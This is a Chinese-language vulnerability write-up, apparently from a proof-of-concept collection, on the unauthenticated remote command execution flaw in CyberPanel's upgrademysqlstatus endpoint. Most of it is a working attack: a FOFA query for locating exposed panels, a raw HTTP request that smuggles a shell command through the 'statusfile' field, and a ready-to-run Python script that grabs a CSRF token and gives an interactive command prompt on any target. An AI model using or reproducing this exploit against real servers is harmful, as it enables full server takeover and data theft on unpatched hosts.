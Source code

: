 # cyberpanel未授权远程命令执行漏洞

​	CyberPanel是一个开源的Web控制面板，它提供了一个用户友好的界面，用于管理网站、电子邮件、数据库、FTP账户等。CyberPanel旨在简化网站管理任务，使非技术用户也能轻松管理自己的在线资源。

​	**CyberPanel upgrademysqlstatus 远程命令执行漏洞(QVD-2024-44346)**，该漏洞源于upgrademysqlstatus接口未做身份验证和参数过滤，未授权的攻击者可以通过此接口执行任意命令获取服务器权限，从而造成数据泄露、服务器被接管等严重的后果。

## 影响范围

CyberPanel v2.3.5 

CyberPanel v2.3.6

## fofa

```javascript
app="CyberPanel"
```

## poc

```javascript
OPTIONS /dataBases/upgrademysqlstatus HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Content-Type: application/json
Connection: close

{"statusfile":"/dev/null; id; #"}
```

```python
import httpx 
import sys 

def get_CSRF_token(client):
    resp = client.get("/")
    
    return resp.cookies['csrftoken']
    
def pwn(client, CSRF_token, cmd):
    headers = {
        "X-CSRFToken": CSRF_token,
        "Content-Type":"application/json",
        "Referer": str(client.base_url)
    }
    
    payload = '{"statusfile":"/dev/null; %s; #","csrftoken":"%s"}' % (cmd, CSRF_token)
    
    return client.put("/dataBases/upgrademysqlstatus", headers=headers, data=payload).json()["requestStatus"]
    
def exploit(client, cmd):
    CSRF_token = get_CSRF_token(client)
    stdout = pwn(client, CSRF_token, cmd)
    print(stdout)
    
if __name__ == "__main__":
    target = sys.argv[1]
    
    client = httpx.Client(base_url=target, verify=False)
    while True:
        cmd = input("$> ")

        exploit(client, cmd)
```

![image-20241029095124852](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410290951933.png)

![image-20241029095144766](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410290951820.png)

## 漏洞来源

- https://dreyand.rs/code/review/2024/10/27/what-are-my-options-cyberpanel-v236-pre-auth-rce
- https://mp.weixin.qq.com/s/sUARVHbwH1UZDXB-CF2z1w